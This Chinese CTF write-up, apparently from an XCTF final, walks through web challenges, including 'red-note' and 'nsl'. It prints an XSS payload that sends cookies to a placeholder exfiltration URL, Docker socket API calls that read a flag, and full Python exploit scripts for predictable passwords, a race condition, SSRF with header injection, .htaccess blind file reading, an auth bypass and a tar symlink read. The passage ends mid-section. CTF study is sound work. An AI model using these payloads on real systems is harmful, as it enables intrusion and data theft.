1. 当 pattern 中包含 `*` 时，`*` 会被替换为随机字符串，例如：`*.html` → `abc123def.html`
2. 当 pattern 不包含 `*` 时：会在文件名末尾自动添加随机字符串，例如：`test.php` → `test.php456789`

利用这个原理上传.html进行xss外带cookie

```http
POST /upload HTTP/1.1
Host: {host}
Content-Length: 367
Connection: keep-alive
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="uploaded_data"; filename="*.html"
Content-Type: text/html

<!DOCTYPE html>
<html>
<body>
<h1>XSS Payload</h1>
<script>
fetch('http://{外带url}/?data='+ encodeURIComponent(document.cookie));
</script>
</body>
</html>
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

得到文件名后让bot访问

http://nginx-proxy/uploads/xxx.html

```yaml
nginx:
    build:
      context: ./nginx
    container_name: nginx-proxy
    ports:
      - "80:80"
    depends_on:
      - go-server
      - bot
    networks:
      - app-network
```

接着查看找到

```yaml
volumes:
      - /var/run/docker.sock:/var/run/docker.sock
```

`/var/run/docker.sock` 是 Docker daemon 的 Unix Domain Socket 文件，是 Docker 的核心通信接口。

```bash
# 当你执行 docker 命令时
docker ps

# 实际上是通过这个 socket 与 Docker daemon 通信
# 等同于：
curl --unix-socket /var/run/docker.sock http://localhost/containers/json
```

先获取所有容器id

```plain
http+unix://%2Fvar%2Frun%2Fdocker.sock/containers/json
```

回显如下

```json
Response:
[
  {
    "Id": "9e86bc8b4c7261146306e3de27c7b4625c7a1750e16a88d25ddc3e375a1ae758",
    "Names": [
      "/nginx-proxy"
    ],
    "Image": "nginx:latest",
    "ImageID": "sha256:e896a4c7361b3360676121396d70f570f7d6886a5d6911f3e66030abd1a70711",
    "Command": "/docker-entrypoint.sh nginx -g 'daemon off;'",
    "Created": 1761306061,
    "Ports": [
      {
        "IP": "0.0.0.0",
        "PrivatePort": 80,
        "PublicPort": 80,
        "Type": "tcp"
      },
      {
        "IP": "::",
        "PrivatePort": 80,
        "PublicPort": 80,
        "Type": "tcp"
      }
    ],
    "Labels": {
      "com.docker.compose.config-hash": "4d15cfe6f1a89653ce09d7f14dfb5b877527cb4ca6ed31d15214f9e83b11e69f",
      "com.docker.compose.container-number": "1",
      "com.docker.compose.oneoff": "False",
      "com.docker.compose.project": "root",
      "com.docker.compose.project.config_files": "docker-compose.yml",
      "com.docker.compose.project.working_dir": "/root",
      "com.docker.compose.service": "nginx",
      "com.docker.compose.version": "1.29.2",
      "maintainer": "NGINX Docker Maintainers <docker-maint@nginx.com>"
    },
    "State": "running",
    "Status": "Up 28 hours",
    "HostConfig": {
      "NetworkMode": "root_app-network"
    },
    "NetworkSettings": {
      "Networks": {
        "root_app-network": {
          "IPAMConfig": null,
          "Links": null,
          "Aliases": null,
          "NetworkID": "84c08b1c8da32c13bbbf2dbac212727975ae4a38684ef8d8420adb591302ed60",
          "EndpointID": "93ec11a728a1914dfa3034bc252b0f166ac2cf002e638d9cac3c62df84ca43a1",
          "Gateway": "172.19.0.1",
          "IPAddress": "172.19.0.4",
          "IPPrefixLen": 16,
          "IPv6Gateway": "",
          "GlobalIPv6Address": "",
          "GlobalIPv6PrefixLen": 0,
          "MacAddress": "02:42:ac:13:00:04",
          "DriverOpts": null
        }
      }
    },
    "Mounts": []
  },
  {
    "Id": "ede61cd3d5a54dc6ef6a2fecad0605ac7549d9cbaa5044d25bf60526088b9857",
    "Names": [
      "/portal-service"
    ],
    "Image": "bot:latest",
    "ImageID": "sha256:08d45a1215d7d6f93e15878d0e4e1bbb75f1221b0e29a36addeb6fbe7fa8c345",
    "Command": "docker-entrypoint.sh node main.js",
    "Created": 1761306059,
    "Ports": [
      {
        "PrivatePort": 3000,
        "Type": "tcp"
      }
    ],
    "Labels": {
      "com.docker.compose.config-hash": "b52ea7e931c6076c72cbc4d968e5453026c4c460ae7ed842750d2b758bdea0ff",
      "com.docker.compose.container-number": "1",
      "com.docker.compose.oneoff": "False",
      "com.docker.compose.project": "root",
      "com.docker.compose.project.config_files": "docker-compose.yml",
      "com.docker.compose.project.working_dir": "/root",
      "com.docker.compose.service": "bot",
      "com.docker.compose.version": "1.29.2"
    },
    "State": "running",
    "Status": "Up 28 hours (healthy)",
    "HostConfig": {
      "NetworkMode": "root_app-network"
    },
    "NetworkSettings": {
      "Networks": {
        "root_app-network": {
          "IPAMConfig": null,
          "Links": null,
          "Aliases": null,
          "NetworkID": "84c08b1c8da32c13bbbf2dbac212727975ae4a38684ef8d8420adb591302ed60",
          "EndpointID": "5cd76f99d7f92ab6bfe3d61f930f3add91100319a176b9c20f4fcf20290e994d",
          "Gateway": "172.19.0.1",
          "IPAddress": "172.19.0.3",
          "IPPrefixLen": 16,
          "IPv6Gateway": "",
          "GlobalIPv6Address": "",
          "GlobalIPv6PrefixLen": 0,
          "MacAddress": "02:42:ac:13:00:03",
          "DriverOpts": null
        }
      }
    },
    "Mounts": [
      {
        "Type": "bind",
        "Source": "/var/run/docker.sock",
        "Destination": "/var/run/docker.sock",
        "Mode": "rw",
        "RW": true,
        "Propagation": "rprivate"
      }
    ]
  },
  {
    "Id": "1eac9880b5776867442a27b0f08609a06a561b9e82dc89c7f8ce4b8714c28977",
    "Names": [
      "/storage-service"
    ],
    "Image": "go-server:latest",
    "ImageID": "sha256:77944109e83db604b1d2b57d5d9ce9e7dea6359a089febf8d52e32a693a0d579",
    "Command": "go run main.go",
    "Created": 1761306059,
    "Ports": [
      {
        "PrivatePort": 8000,
        "Type": "tcp"
      }
    ],
    "Labels": {
      "com.docker.compose.config-hash": "a10dc81d005cfba90d1a64f541024aeca5a85b7574a8b95bcaa9a262b91a6593",
      "com.docker.compose.container-number": "1",
      "com.docker.compose.oneoff": "False",
      "com.docker.compose.project": "root",
      "com.docker.compose.project.config_files": "docker-compose.yml",
      "com.docker.compose.project.working_dir": "/root",
      "com.docker.compose.service": "go-server",
      "com.docker.compose.version": "1.29.2"
    },
    "State": "running",
    "Status": "Up 28 hours (healthy)",
    "HostConfig": {
      "NetworkMode": "root_app-network"
    },
    "NetworkSettings": {
      "Networks": {
        "root_app-network": {
          "IPAMConfig": null,
          "Links": null,
          "Aliases": null,
          "NetworkID": "84c08b1c8da32c13bbbf2dbac212727975ae4a38684ef8d8420adb591302ed60",
          "EndpointID": "9c0e5923f5ceaeb6b829f1107786d5d1c66a71dad2aa823419930ce3cacb6905",
          "Gateway": "172.19.0.1",
          "IPAddress": "172.19.0.2",
          "IPPrefixLen": 16,
          "IPv6Gateway": "",
          "GlobalIPv6Address": "",
          "GlobalIPv6PrefixLen": 0,
          "MacAddress": "02:42:ac:13:00:02",
          "DriverOpts": null
        }
      }
    },
    "Mounts": [
      {
        "Type": "bind",
        "Source": "/root/go/src/uploads",
        "Destination": "/app/uploads",
        "Mode": "rw",
        "RW": true,
        "Propagation": "rprivate"
      }
    ]
  }
]
```

找到存储容器的然后再读flag

```plain
http+unix://%2Fvar%2Frun%2Fdocker.sock/containers/1eac9880b5776867442a27b0f08609a06a561b9e82dc89c7f8ce4b8714c28977/archive?path=/flag.txt
```

得到 Docker API 的 /archive 接口返回的 TAR 压缩包格式数据，太长了我就不放了，然后可以看到有部分数据挨着的转一下就是 flag 

```javascript
const data = [102,108,97,103,123,115,116,48,114,52,103,51,95,52,110,100,95,100,48,99,107,51,114,95,115,48,99,107,51,116,95,52,99,99,51,115,115,95,49,115,95,100,52,110,103,51,114,48,117,115,95,115,48,95,117,95,99,48,117,49,100,95,112,114,48,48,118,51,95,49,116,33,33,33,125];

const flagStart = data.indexOf(102);
const flagBytes = [];

for (let i = flagStart; i < data.length; i++) {
  if (data[i] === 0) break;
  flagBytes.push(data[i]);
}

const flag = String.fromCharCode(...flagBytes);
console.log('🚩 Flag:', flag);
//🚩 Flag: flag{st0r4g3_4nd_d0ck3r_s0ck3t_4cc3ss_1s_d4ng3r0us_s0_u_c0u1d_pr00v3_1t!!!}
```

## A&D

被打爆了，我也只会最简单那个解，简单记录一下赛后的看法，代码真的多🥵。

### red-note

通过询问 0ops 大哥们得知 remote 的管理员为 admin\123456，下面的测试皆为本地测试

私密笔记的密码生成逻辑如下

```php
//app/app/app/Models/Note.php

// create() 内部重新生成 password_hash，未使用外部传入的 password_hash
$secret = getenv('SECRET_SALT') ?: 'DEVELOPMENT_DEFAULT_SECRET';
$derivedPassword = $id . ':' . $data['user_id'] . ':' . $secret;
$passwordHash = password_hash($derivedPassword, PASSWORD_BCRYPT);

//app/app/app/Services/NoteService.php

// Service 层同样按 noteId:userId:secret 生成 password_hash（与 Model 重复）
$secret = getenv('SECRET_SALT') ?: 'DEVELOPMENT_DEFAULT_SECRET';
$derivedPassword = $noteId . ':' . $userId . ':' . $secret;
$passwordHash = password_hash($derivedPassword, PASSWORD_BCRYPT);
```

看一下密码校验部分

```php
//app/app/app/Controllers/NoteController.php
if (!$note['is_public']) {
      if (isset($_GET['password']) && $_GET['password'] !== '' && password_verify($_GET['password'], $note['password_hash'])) {
          
      } else if ($isOwner) {
          
      } else {
          http_response_code(403);
          echo 'Access denied';
          return;
      }
  }
```

所以下一步就是获取用户和笔记的 id

```php
//app/app/public/app.php

$router->get('/api/search', [ApiController::class, 'search']);
$router->get('/api/users/{username}', [ApiController::class, 'user']);


//app/app/app/Controllers/ApiController.php
public function user(string $username): void {
    $user = $this->userModel->findByUsername($username);
    // 返回 id、username 等基础信息
}

//app/app/app/Models/Note.php
public function search(string $query, ...): array {
    // 返回包含 n.id、u.username(author) 等公开信息
}
```

以`note_id:user_id:secret`作为“口令”原文，且 secret 允许使用固定默认值 `DEVELOPMENT_DEFAULT_SECRET`，导致口令可预测，直接到 flag 笔记。

```python
#!/usr/bin/env python3
import requests
import re

BASE_URL = "http://127.0.0.1:8080"
SECRET = "DEVELOPMENT_DEFAULT_SECRET"


def find_flag_note():
    r = requests.get(f"{BASE_URL}/api/search", params={"q": "flag"}, timeout=8)
    r.raise_for_status()
    js = r.json()
    notes = js.get("data", [])
    for n in notes:
        if (n.get("title") or "").strip().lower() == "flag":
            return {
                "id": n["id"],
                "author": n["author"],
                "title": n["title"],
            }
    return notes[0] if notes else None


def get_user_id(username: str) -> str:
    r = requests.get(f"{BASE_URL}/api/users/{username}", timeout=8)
    r.raise_for_status()
    js = r.json()
    return js["data"]["id"]


def view_private_note(note_id: str, user_id: str) -> str:
    pwd = f"{note_id}:{user_id}:{SECRET}"
    r = requests.get(f"{BASE_URL}/notes/{note_id}", params={"password": pwd}, timeout=8)
    return r.text


def main():
    note = find_flag_note()
    if not note:
        print("[!] 未找到包含关键字的笔记（api/search），请确认数据是否存在")
        return
    print(f"[+] 命中笔记：{note['title']} (id={note['id']}, author={note['author']})")

    user_id = get_user_id(note["author"])
    print(f"[+] 作者用户ID：{user_id}")

    html = view_private_note(note["id"], user_id)
    print("[+] 私密笔记页面加载完成，尝试提取 flag ...")
    m = re.search(r"flag\{[^\n\r]+\}", html)
    if m:
        print(m.group(0))
    else:
        print(html[:800])


if __name__ == "__main__":
    main()
```

条件竞争创建笔记获得 flag

```php
//app/app/app/Controllers/NoteController.php`
public function prize(): void {
    $this->requireAuth();
    $user = $this->currentUser();

    $count = $this->noteModel->countByUser($user['id']);
    if ($count >= 10) {
        echo file_get_contents('/flag');
    } else {
        echo "work hard";
    }
}
```

只要我们笔记大于 10，就可以获得 flag，但是一个人限制两条，准确来说是一个会话限制两条

```php
//app/app/app/Controllers/NoteController.php

public function store(): void {
    $this->requireAuth();
    $user = $this->currentUser();

    if ($user['chance'] <= 0) {
        \Session::flash('error', 'Only 2 notes per day');
        $this->redirect('/profile');
        return;
    }
    // ... 输入校验略
    $id = $this->noteModel->create([ /* ... */ ]);
    // ... 绑定标签略

    $_SESSION['user']['chance'] -= 1;               // 会话内字段递减
    $this->userModel->decrementChance($user['id']); // 数据库字段递减
    // ... 日志 & 跳转
}

//会话态来源
//app/app/app/Controllers/AuthController.php

\Session::set('user', [
    'id' => $user['id'],
    'username' => $user['username'],
    'email' => $user['email'],
    'role' => $user['role'],
    'chance' => $user['chance']
]);

//app/app/app/Controllers/Controller.php
protected function currentUser(): ?array {
    return \Session::get('user');
}

//数据库递减实现
//app/app/app/Models/User.php
public function decrementChance(string $id): void {
    $st = $this->db->prepare('UPDATE users SET chance = chance - 1 WHERE id = ?');
    $st->execute([$id]);
}
```

主要就是最后的数据库递减，没有进行原子化处理，多个会话同时通过`chance > 0`的检查，各自创建笔记并分别做递减，数据库层递减与配额判定分离，且递减语句无原子条件`WHERE chance > 0`与更新结果检查，无法阻止超额创建。exp 如下

```python
#!/usr/bin/env python3
import requests
import string
import random
import time

BASE_URL = "http://127.0.0.1:8080"


def rand_username(prefix="prize_"):
    return prefix + "".join(random.choice(string.ascii_lowercase + string.digits) for _ in range(8))


def register(username: str, password: str, email: str) -> requests.Session:
    s = requests.Session()
    r = s.post(f"{BASE_URL}/register", data={
        "username": username,
        "password": password,
        "email": email,
    }, timeout=8)
    return s


def login_session(username: str, password: str) -> requests.Session:
    s = requests.Session()
    r = s.post(f"{BASE_URL}/login", data={
        "username": username,
        "password": password,
    }, timeout=8)
    r.raise_for_status()
    return s


def create_note(session: requests.Session, title: str, content: str, public: bool = True):
    data = {
        "title": title,
        "content": content,
    }
    if public:
        data["is_public"] = "on"
    r = session.post(f"{BASE_URL}/notes", data=data, timeout=8)
    r.raise_for_status()
    return r.text


def get_prize(session: requests.Session) -> str:
    r = session.get(f"{BASE_URL}/prize", timeout=8)
    r.raise_for_status()
    return r.text


def main():
    username = rand_username()
    password = "changeme"
    email = f"{username}@note.com"
    print(f"[+] 注册用户: {username}")
    control = register(username, password, email)

    sessions = [login_session(username, password) for _ in range(5)]
    print(f"[+] 已创建 {len(sessions)} 个并发会话")

    # 每个会话各自有 session 内的 'chance'=2，共 10 条
    idx = 0
    for s in sessions:
        for j in range(2):
            title = f"note-{idx}"
            content = f"mass-create #{idx}"
            create_note(s, title, content, public=True)
            idx += 1
    print(f"[+] 已创建 {idx} 条笔记")

    prize_out = get_prize(sessions[0])
    print("[+] /prize 输出:")
    print(prize_out)


if __name__ == "__main__":
    main()
```

SSRF，我相信大家一开始就是看到了这个flask应用，但是需要到5000端口才行，找了一圈没找到

在`AdminController.php`的 handleConnect 方法：

```php
public function handleConnect(): void {
    $this->requireAdmin();
    
    $username = $_POST['username'] ?? '';
    $options = $_POST['options'] ?? '';
    
    if (!preg_match('/http|file|\\\/i', $options)) {
        $context = stream_context_create(json_decode($options, true) ?: []);
        $resp = @fopen("ftp://127.0.0.1:21/$username", 'r', false, $context);
        
        if ($resp) {
            $content = stream_get_contents($resp);
            echo htmlspecialchars($content);
            fclose($resp);
        } else {
            echo 'Connection failed';
        }
    } else {
        echo 'Invalid options';
    }
}
```

我们看到有个典型的链接，并且里面黑名单限制了为 ftp，其实tcp也可以，所以就能到 5000 了，而且有个地方直接进行了参数拼接

```php
$username = $_POST['username'] ?? '';
$resp = @fopen("ftp://127.0.0.1:21/$username", 'r', false, $context);
```

 那既然到了这里，如何绕过呢？Stream Context！

```php
$context = stream_context_create(json_decode($options, true) ?: []);
$resp = @fopen("ftp://127.0.0.1:21/$username", 'r', false, $context);
```

`$options`参数允许用户完全控制stream context，Stream context可以通过 proxy 选项重定向请求到任意地址和端口

```bash
curl -b cookies.txt -X POST -d 'username=flag?passwd=xiaoming&options={"ftp":{"timeout":30,"proxy":"tcp://127.0.0.1:5000"}}' http://127.0.0.1:8080/admin/connect

only admin can get flag%  
```

说明已经成功 ssrf， 但是就差最后一步不知道怎么加 http 头

```bash
curl -b cookies.txt -X POST -d 'username=flag%20HTTP/1.1%0D%0AHost:%20127.0.0.1:5000%0D%0Auser:%20admin%0D%0A%0D%0Apasswd=xiaoming%0D%0AGET%20/&options={"ftp":{"timeout":30,"proxy":"tcp://127.0.0.1:5000"}}' http://127.0.0.1:8080/admin/connect 
```

经过测试我发现可以直接在`-d`里塞请求包，那现在就简单了

```bash
(TraeAI-3) ~/Downloads/xctf final/php [0] $ curl -b cookies.txt -X POST -d 'u
sername=flag%20HTTP/1.1%0D%0AHost:%20127.0.0.1:5000%0D%0Auser:%20admin%0D%0AC
ontent-Type:%20application/x-www-form-urlencoded%0D%0AContent-Length:%2015%0D
%0A%0D%0Apasswd=xiaoming%0D%0APOST%20/&options={"ftp":{"timeout":30,"proxy":"
tcp://127.0.0.1:5000"}}' http://127.0.0.1:8080/admin/connect
flag{test}
```

exp 如下

```python
#!/usr/bin/env python3
import requests

def exploit():
    session = requests.Session()
    session.post("http://127.0.0.1:8080/login", data={'username': 'admin', 'password': 'changeme'})

    payload = {
        'username': 'flag HTTP/1.1\r\nHost: 127.0.0.1:5000\r\nuser: admin\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 15\r\n\r\npasswd=xiaoming\r\nPOST /',
        'options': '{"ftp":{"timeout":30,"proxy":"tcp://127.0.0.1:5000"}}'
    }

    response = session.post("http://127.0.0.1:8080/admin/connect", data=payload)
    print(response.text.strip())

if __name__ == "__main__":
    exploit()
```

文件上传 RCE，看到可以上传 .htaccess，很容易想到文件上传 getshell，但是他过滤的有点死，名称过滤 p 与内容过滤`php/?`，而且也没有 include，后来询问了 0ops 的大哥，得知了这个点 https://eastjun.top/posts/htaccess_use/



对于题目环境构造出这样的文件（图上的不行）

```plain
RewriteEngine On
RewriteRule ^probe$ - [R=404,L]
<If "file('/flag') =~ m#^flag[{]test[}]#">
ErrorDocument 404 "HIT"
</If>
ErrorDocument 404 "MISS"
```

能够成功回显 HIT，exp 如下

```python
import requests, sys

BASE='http://127.0.0.1:8080'

S=requests.Session(); S.headers.update({'Connection':'close'}); S.trust_env=False
S.post(BASE+'/login',data={'username':'admin','password':'changeme'},timeout=3)
CS='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_{}!@#$%&*+=:;,. '

def esc(s):
    r=[]
    for ch in s:
        r.append('['+ch+']' if ch in '{}()[]+*|.$^#' else ('[-]' if ch=='-' else ch))
    return ''.join(r)


def check(prefix, exact=False):
    not_cs='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_{}!@#$%&*+=:;,. '
    pattern=(f"^{esc(prefix)}[^"+not_cs+"]*$" if exact else f"^{esc(prefix)}")
    t=("RewriteEngine On\nRewriteRule ^probe$ - [R=404,L]\n"
       f"<If \"file('/flag') =~ m#{pattern}#\">\nErrorDocument 404 \"HIT\"\n</If>\n"
       "ErrorDocument 404 \"MISS\"\n")
    S.post(BASE+'/admin/upload',files={'file':('.htaccess',t,'text/plain')},timeout=3)
    r=S.get(BASE+'/test/probe',allow_redirects=False,timeout=3)
    return r.status_code==404 and ('HIT' in r.text)
P='flag{'
print(f"start prefix: {P}", flush=True)

while True:
    found=False
    for c in CS:
        print(f"try: {c}", flush=True)
        ok=check(P+c)
        print('HIT' if ok else 'MISS', flush=True)
        if ok:
            P+=c
            print(f"prefix: {P}", flush=True)
            if c=='}' and check(P, exact=True):
                print(f"FLAG FOUND: {P}", flush=True); print(P, flush=True); sys.exit(0)
            found=True
            break
    if not found:
        print(f"FLAG FOUND: {P}", flush=True); print(P, flush=True); sys.exit(0)
    if P.endswith('}') and check(P, exact=True):
        print(f"FLAG FOUND: {P}", flush=True); print(P, flush=True); sys.exit(0)
```

### nsl

由于没给 docker，去问了一下 **@Jay17大哥**，他也记不得 flag 位置了，所以这里测试是本地使用的 /flag 所以并不确保远程可以打通🤗

这个题，有多个洞，越权读取 flag、tar 软连接读取 flag、利用 pulsebus 任务主题可被覆盖的漏洞触发维护快照并从日志中读取 flag。

攻击者可通过`legacy`模式的中继握手（Relay Handshake）获取一个高权限的 token，并使用该令牌直接访问对外暴露的管理接口`/admin/vault/snapshot`，从而越权读取 flag。

```python
# app/routes/relays.py
     
@router.post("/bootstrap", ...)
     def relay_bootstrap(...):
         # ...
         access_token = f"NL-VAULT-{generate_id()}"
         ticket = {
             "relay_id": relay.id,
             "scope": "vault.read",  // <-- 关键：授予了金库读取权限
             "access_token": access_token,
             # ...
         }
         # ...
         token_record = RelayToken(..., access_token=access_token, ...)
         db.add(token_record)
```

在`app/routes/diagnostics.py`中，`/admin/vault/snapshot`路由被定义，作为一个代理，将收到的请求（包括 Authorization 头）直接转发。

```python
@router.get("/admin/vault/snapshot")
def admin_vault_snapshot(authorization: str = Header(None)):
    # ...
    resp = requests.get(
        "http://127.0.0.1:6070/admin/vault/snapshot",
        headers={"Authorization": authorization},
    timeout=3,
)
```

在`app/diagnostics_service.py`中，内部的`/admin/vault/snapshot`接口仅验证令牌是否为 maintenance_token 或有效的 RelayToken，exp 如下

```python
#!/usr/bin/env python3
import argparse
import base64
import json
import secrets
from typing import Optional, Tuple

import requests
from requests.adapters import HTTPAdapter
from urllib3.util.retry import Retry
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.kdf.hkdf import HKDF
from cryptography.hazmat.primitives.asymmetric import x25519
from cryptography.hazmat.primitives.ciphers.aead import ChaCha20Poly1305


LEGACY_SALT_HEX = "4f3f2e1d0c0b0a090807060504030201000102030405060708090a0b0c0d0e0f"
LEGACY_INFO = b"relay-boot-legacy"


def api(base_url: str, path: str) -> str:
    return f"{base_url.rstrip('/')}{path}"


def make_session() -> requests.Session:
    s = requests.Session()
    retries = Retry(
        total=5,
        connect=3,
        read=3,
        backoff_factor=0.5,
        status_forcelist=[502, 503, 504],
        allowed_methods={"GET", "POST"},
        raise_on_status=False,
    )
    adapter = HTTPAdapter(max_retries=retries)
    s.mount("http://", adapter)
    s.mount("https://", adapter)
    return s


def register(base_url: str, session: Optional[requests.Session] = None) -> str:
    s = session or make_session()
    username = f"team_{secrets.token_hex(6)}"
    password = secrets.token_urlsafe(12)
    r = s.post(api(base_url, "/api/users/register"), json={"username": username, "password": password}, timeout=10)
    r.raise_for_status()
    return r.json()["token"]


def create_relay(base_url: str, bearer: str, session: Optional[requests.Session] = None) -> str:
    s = session or make_session()
    headers = {"Authorization": f"Bearer {bearer}"}
    r = s.post(api(base_url, "/api/relays"), json={"name": "Orbital Relay"}, headers=headers, timeout=10)
    r.raise_for_status()
    return r.json()["id"]


def bootstrap_legacy(base_url: str, bearer: str, relay_id: str, client_seed_hex: str, session: Optional[requests.Session] = None) -> Tuple[str, str, str, str]:
    s = session or make_session()
    headers = {"Authorization": f"Bearer {bearer}"}
    payload = {"relay_id": relay_id, "mode": "legacy", "client_seed": client_seed_hex}
    r = s.post(api(base_url, "/api/relays/bootstrap"), json=payload, headers=headers, timeout=15)
    r.raise_for_status()
    data = r.json()
    return data["server_public"], data["nonce"], data["aad"], data["wrapped_ticket"]


def derive_session_key(server_public_b64: str, client_seed_hex: str) -> bytes:
    server_public_bytes = base64.b64decode(server_public_b64.encode("ascii"))
    server_public = x25519.X25519PublicKey.from_public_bytes(server_public_bytes)
    seed_bytes = bytes.fromhex(client_seed_hex)
    client_private = x25519.X25519PrivateKey.from_private_bytes(seed_bytes.ljust(32, b"\x00"))
    shared_secret = client_private.exchange(server_public)
    session_key = HKDF(
        algorithm=hashes.SHA256(), length=32, salt=bytes.fromhex(LEGACY_SALT_HEX), info=LEGACY_INFO
    ).derive(shared_secret)
    return session_key


def decrypt_ticket(session_key: bytes, nonce_b64: str, aad_b64: str, wrapped_b64: str) -> dict:
    nonce = base64.b64decode(nonce_b64.encode("ascii"))
    aad = base64.b64decode(aad_b64.encode("ascii"))
    wrapped = base64.b64decode(wrapped_b64.encode("ascii"))
    cipher = ChaCha20Poly1305(session_key)
    plaintext = cipher.decrypt(nonce, wrapped, aad)
    return json.loads(plaintext.decode("utf-8"))


def fetch_flag(base_url: str, access_token: str, session: Optional[requests.Session] = None) -> dict:
    s = session or make_session()
    headers = {"Authorization": f"Bearer {access_token}"}
    r = s.get(api(base_url, "/admin/vault/snapshot"), headers=headers, timeout=10)
    r.raise_for_status()
    return r.json()


def main() -> None:
    parser = argparse.ArgumentParser(description="中继握手 + 管理接口获取 flag")
    parser.add_argument("base_url", nargs="?", default="http://localhost:10000", help="目标基础URL，例如 http://localhost:10000")
    args = parser.parse_args()

    s = make_session()
    print(f"[*] Target: {args.base_url}")
    token = register(args.base_url, s)
    print(f"[+] Bearer: {token[:16]}…")
    relay_id = create_relay(args.base_url, token, s)
    print(f"[+] Relay: {relay_id}")
    client_seed_hex = "0102030405060708090a0b0c0d0e0f101112131415161718191a1b1c1d1e1f"
    server_public_b64, nonce_b64, aad_b64, wrapped_b64 = bootstrap_legacy(args.base_url, token, relay_id, client_seed_hex, s)
    print("[+] Handshake (legacy) success; decrypting ticket…")
    session_key = derive_session_key(server_public_b64, client_seed_hex)
    ticket = decrypt_ticket(session_key, nonce_b64, aad_b64, wrapped_b64)
    access_token = ticket.get("access_token")
    if not access_token:
        raise RuntimeError("票据中未包含 access_token")
    print(f"[+] Access token: {access_token}")
    vault = fetch_flag(args.base_url, access_token, s)
    flag = vault.get("flag")
    print(f"[+] FLAG via auth bypass: {flag}")


if __name__ == "__main__":
    main()
```

还有软连接，在`app/routes/support.py`的`_extract_archive`函数中，代码检查了归档成员是否为符号链接，如果是，则在服务器上重新创建它。

```python
# File: app/routes/support.py
     
 def _extract_archive(payload: bytes, staging_root: Path):
     # ...
     for member in archive.getmembers():
         member_path = (staging_root / member.name).resolve()
         _assert_within(staging_root.resolve(), member_path)
         # ...
         if member.issym():
             # ...
             os.symlink(member.linkname, member_path)
         # ...
```

使用了 symlink 第一时间想到 tar 软连接

在`app/routes/diagnostics.py`的 diagnostics_bundle 函数中，当系统根据 manifest.json 将暂存区文件打包成最终的 diagnostics.tar 时，tarfile.open 使用了 dereference=True（默认或显式设置）。这导致 tar 命令会读取符号链接指向的真实文件内容。

```python
# File: app/routes/diagnostics.py
     
 def diagnostics_bundle(...):
     # ...
     with tarfile.open(mode="w", fileobj=buf, dereference=True) as archive:
         for entry in includes:
             # ...
             candidate = staging_root / entry_name
             # ...
             archive.add(candidate, arcname=entry_name)
```

exp 如下

```python
#!/usr/bin/env python3
import argparse
import io
import json
import secrets
import tarfile
from typing import Optional

import requests
from requests.adapters import HTTPAdapter
from urllib3.util.retry import Retry


def api(base_url: str, path: str) -> str:
    return f"{base_url.rstrip('/')}{path}"


def make_session() -> requests.Session:
    s = requests.Session()
    retries = Retry(
        total=5,
        connect=3,
        read=3,
        backoff_factor=0.5,
        status_forcelist=[502, 503, 504],
        allowed_methods={"GET", "POST"},
        raise_on_status=False,
    )
    adapter = HTTPAdapter(max_retries=retries)
    s.mount("http://", adapter)
    s.mount("https://", adapter)
    return s


def register(base_url: str, session: Optional[requests.Session] = None) -> str:
    s = session or make_session()
    username = f"team_{secrets.token_hex(6)}"
    password = secrets.token_urlsafe(12)
    r = s.post(api(base_url, "/api/users/register"), json={"username": username, "password": password}, timeout=10)
    r.raise_for_status()
    return r.json()["token"]


def create_ticket(base_url: str, bearer: str, session: Optional[requests.Session] = None) -> str:
    s = session or make_session()
    headers = {"Authorization": f"Bearer {bearer}"}
    r = s.post(api(base_url, "/api/support/tickets"), headers=headers, timeout=10)
    r.raise_for_status()
    return r.json()["id"]


def build_symlink_tar(target: str = "/flag") -> bytes:
    buf = io.BytesIO()
    with tarfile.open(mode="w", fileobj=buf) as tf:
        # 添加符号链接：evil -> /flag
        ti_link = tarfile.TarInfo(name="evil")
        ti_link.type = tarfile.SYMTYPE
        ti_link.linkname = target
        tf.addfile(ti_link)
        # 添加 manifest.json
        manifest = json.dumps({"includes": ["evil"]}, ensure_ascii=False).encode()
        ti_manifest = tarfile.TarInfo(name="manifest.json")
        ti_manifest.size = len(manifest)
        tf.addfile(ti_manifest, io.BytesIO(manifest))
    return buf.getvalue()


def upload_archive(base_url: str, bearer: str, ticket_id: str, archive_bytes: bytes, session: Optional[requests.Session] = None) -> None:
    s = session or make_session()
    headers = {"Authorization": f"Bearer {bearer}"}
    files = {"archive": ("diag.tar", archive_bytes, "application/x-tar")}
    r = s.post(api(base_url, f"/api/support/tickets/{ticket_id}/upload"), headers=headers, files=files, timeout=20)
    r.raise_for_status()


def download_bundle(base_url: str, bearer: str, ticket_id: str, session: Optional[requests.Session] = None) -> bytes:
    s = session or make_session()
    headers = {"Authorization": f"Bearer {bearer}"}
    r = s.get(api(base_url, f"/diagnostics/bundle?ticket={ticket_id}"), headers=headers, timeout=20)
    r.raise_for_status()
    return r.content


def extract_flag_from_tar(tar_bytes: bytes) -> str:
    with tarfile.open(fileobj=io.BytesIO(tar_bytes), mode="r:") as tf:
        member = next((m for m in tf.getmembers() if m.name == "evil"), None)
        if not member:
            raise RuntimeError("未找到 evil 条目")
        f = tf.extractfile(member)
        if not f:
            raise RuntimeError("evil 条目无内容")
        return f.read().decode().strip()


def main() -> None:
    parser = argparse.ArgumentParser(description="支持工单 + 符号链接获取 flag")
    parser.add_argument("base_url", nargs="?", default="http://localhost:10000", help="目标基础URL，例如 http://localhost:10000")
    args = parser.parse_args()

    s = make_session()
    print(f"[*] Target: {args.base_url}")
    token = register(args.base_url, s)
    print(f"[+] Bearer: {token[:16]}…")
    ticket_id = create_ticket(args.base_url, token, s)
    print(f"[+] Ticket: {ticket_id}")
    archive = build_symlink_tar("/flag")
    upload_archive(args.base_url, token, ticket_id, archive, s)
    print("[+] Uploaded diagnostic package")
    tar_bytes = download_bundle(args.base_url, token, ticket_id, s)
    flag = extract_flag_from_tar(tar_bytes)
    print(f"[+] FLAG via symlink: {flag}")


if __name__ == "__main__":
    main()
```

还有就是泄漏日志，在调度 PulseBus 任务时，可以覆盖 topic，篡改为内部专用的`maintenance.vault.snapshot`。这会触发系统执行一个计划外的维护任务，将包含 flag 的敏感快照信息写入到可读的中继日志中。

```python
